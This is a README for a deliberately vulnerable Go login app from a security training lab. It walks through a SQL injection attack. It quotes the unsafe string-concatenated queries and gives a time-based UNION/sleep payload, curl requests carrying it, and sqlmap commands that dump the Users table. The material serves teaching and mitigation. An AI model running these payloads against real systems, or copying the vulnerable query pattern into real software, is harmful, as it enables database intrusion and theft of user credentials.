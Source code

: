 # CopyNPaste API

<img src="images/CopyNPaste.png" align="center"/>

CopyNPaste is a Golang web application that uses an API and a simple front end to simulate a login page and contains an example of a SQL Injection vulnerability. It has both `/register` and `/login` routes that, by communicating with a MySQL database, enable users to register and enter into a generic system.

## Index

- [Definition](#what-is-injection)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Injection?

Injection flaws, such as SQL, NoSQL, OS, and LDAP injection, occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization.

The main goal of this project is to discuss how **SQL Injection** vulnerabilities can be exploited and to encourage developers to send Pull Requests to secDevLabs on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][docker install] and [Docker Compose][docker compose install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a1/copy-n-paste
```

```sh
make install
```

Then simply visit [localhost:10001][app], as exemplified below:

<img src="images/CopyNPaste.png" align="center"/>

## Get to know the app 💉

To properly understand how this application works, you can follow these simple steps:

- Register a new user via front-end.
- Login as this user via front-end.

* Register another user now using command line:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password", "passcheck":"password"}' http://localhost:10001/register
```

- Login as this second user now using command line:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password"}' http://localhost:10001/login

```

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Lack of input validation allows injection of SQL queries

After reviewing `NewUser()` , `CheckIfUserExists()` and `AuthenticateUser()` from [`db.go`](<(https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2017-apps/a1/copy-n-paste/app/util/db.go#)>) file, it was possible to see that some input from users are concatenated with SQL queries, as shown in the following code snippets:

```go
query := fmt.Sprint("select * from Users where username = '" + user + "'")

```

```go
query := fmt.Sprint("insert into Users (username, password) values ('" + user + "', '" + passHash + "')")
```

```go
query := fmt.Sprint("select username from Users where username = '" + username + "'")
```

As no validation is being made on these variables, SQL injections may be successfully executed in the database. Using the web interface, we can send some information, using the form from "inspect page", to better understand how it communicates with the API.

<img src="images/attack-0.png" align="center"/>

To confirm the input field is vulnerable, the following payload could be used to test if a 5 seconds delay will be noted after sending it:

```
-1' UNION select 1,2,sleep(5) -- '
```

<img src="images/attack-1.png" align="center"/>

Using `curl` on CLI interface, we can test it again, this time with a larger 30 seconds delay:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"-1'\'' union select 1,2,sleep(30) -- ", "pass":"password"}' http://127.0.0.1:10001/login
```

Request:

<img src="images/attack-2.png" align="center"/>

30 seconds later, thus confirming we can execute commands on the server:

<img src="images/attack-3.png" align="center"/>

#### 🔥

An attacker could now create any malicious SQL queries and send them to the API that, in theory, would be executed. For this attack narrative, [sqlmap](https://github.com/sqlmapproject/sqlmap) will be used to exemplify how an automated SQL Injection attack may be performed.

To install sqlmap on a Mac you can simply type:

```sh
brew install sqlmap
```

The first possible step is to create a file, `postRequest.txt`, containing the HTTP POST itself, as shown in the following code:

```sh
POST /login HTTP/1.1
Host: 127.0.0.1:10001
User-Agent: curl/7.54.0
Accept: */*
Content-Type: application/json
Content-Length: 31

{"user":"user", "pass":"password"}
```

Before executing the attack, you can open a new tab in your terminal and type the following command to observe how the malicious requests will be received by the app:

```sh
docker logs a1_api -f
```

After that, we can now use `-r` option and wait for sqlmap to perform multiples malicious requests until it finds the vulnerable parameter:

```sh
sqlmap -r postRequest.txt
```

<img src="images/attack-4.png" align="center"/>

After understanding how this database is structured, an attacker could use the following command to retrieve database details:

```sh
sqlmap -r postRequest.txt --tables
```

And then retrieve sensitive information from it:

```sh
sqlmap -r postRequest.txt -D a1db -T Users --dump
```

<img src="images/attack-5.png" align="center"/>

## Secure this app

How could you now mitigate this vulnerability? After your code modification, an attacker should not be able to:

- Run SQL queries in the database.

## PR solutions

[Spoiler alert] To understand how this vulnerability can be mitigated, check [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22CopyNPaste+API%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10001
